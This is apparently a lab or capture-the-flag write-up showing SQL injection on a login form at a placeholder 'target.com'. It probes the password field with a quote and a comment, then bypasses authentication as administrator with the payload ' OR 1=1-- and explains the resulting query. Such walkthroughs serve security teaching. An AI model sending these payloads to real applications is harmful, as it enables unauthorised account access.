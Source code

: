# SQL injection vulnerability allowing login bypass

### Goal:
`Log in to the application as the administrator user.`
### Info: The injection point is the login functionality
`target.com/login?username=<user>&password=<password>`
<br><br><br>

**<ins>Step 1: Test the injection point</ins>**

username=administrator&password='

`500: internal server error`

username=administrator&password='--

`200`

This is a valid injection point

**<ins>Step 2: Exploit the vulnerability</ins>**

username=administrator&password=' OR 1=1--

`Success!`

This request sends the server this query:

`password = '' OR 1=1`<br> `password = false OR true`

This evaluates to true and logs us in as the specified user.
